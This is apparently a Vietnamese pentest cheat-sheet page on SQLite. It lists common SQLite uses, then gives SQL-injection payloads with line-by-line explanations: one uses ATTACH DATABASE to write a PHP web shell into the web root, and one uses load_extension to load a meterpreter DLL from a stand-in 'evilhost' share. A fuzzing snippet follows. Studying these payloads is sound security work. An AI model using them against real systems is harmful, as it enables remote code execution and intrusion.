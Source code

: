 # SQLite
SQLite là một engine cơ sở dữ liệu SQL nhúng, độc lập (không cần server riêng), nhẹ nhưng đầy đủ tính năng và được dùng rộng rãi.
- **Storage backend for web browsers** - SQLite được dùng làm lưu trữ cục bộ cho trình duyệt (ví dụ WebSQL/IndexedDB nội bộ).
- **Programming language binding** - Có binding cho nhiều ngôn ngữ (Python, PHP, Java, v.v.), tức là dễ tích hợp vào app viết bằng nhiều ngôn ngữ.
- **Web database** - Dùng làm DB cho ứng dụng web nhỏ hoặc test, thay vì cài đặt server DB phức tạp.
- **Embedded database for mobile apps** - Thường dùng trong iOS/Android để lưu dữ liệu app cục bộ.
- **Database on IoT devices** - Phù hợp cho thiết bị IoT do nhẹ, ít yêu cầu tài nguyên.

# Known Attacks on SQLite
## Attach Database
```php
?id=bob'; ATTACH DATABASE '/var/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn(dataz) VALUES ('<? system($_GET['cmd']); ?>');--
```

- `ATTACH DATABASE '/var/www/lol.php' AS lol;`
→ gọi lệnh SQLite ATTACH DATABASE để gắn (mount) một file làm "database" mới, và đặt `alias` là `lol`. Vì SQLite lưu DB dưới dạng file, nếu đường dẫn trỏ tới thư mục web (`/var/www/...`), thì tiếp theo có thể thao tác trên file đó (tạo table, insert) - tức là ghi dữ liệu vào file.

- `CREATE TABLE lol.pwn (dataz text);`
→ tạo một table pwn trong database lol (tức là trong file `/var/www/lol.php`). Trong SQLite, tạo table sẽ ghi cấu trúc DB vào file.

- `INSERT INTO lol.pwn(dataz) VALUES ('<? system($_GET['cmd']); ?>');`
→ chèn một dòng text chứa mã PHP vào bảng - tùy cách file được cấu trúc/ghi, nội dung này có thể xuất hiện vào file `.php` và khi truy cập qua web server sẽ được thực thi (RCE).

## SELECT load_extension()
```php
?name=123 UNION SELECT 1, load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

- `load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain')`
→ hàm SQLite cho phép nạp một extension (thư viện chia sẻ, `.dll` trên Windows hoặc `.so` trên Linux). Đưa vào đường dẫn tới thư viện độc hại (ở ví dụ là một UNC path `\\evilhost\...`) và tên hàm khởi tạo (`'DllMain'`), để hệ thống nạp mã native do attacker cung cấp. Khi nạp thành công mã native chạy trong tiến trình → có thể mở shell/nâng quyền.

## Fuzzing SQLite
```sql
create table t0(o CHar(0) CHECK(0&0>0));
insert into t0;
select randomblob(0)-trim(0);
```
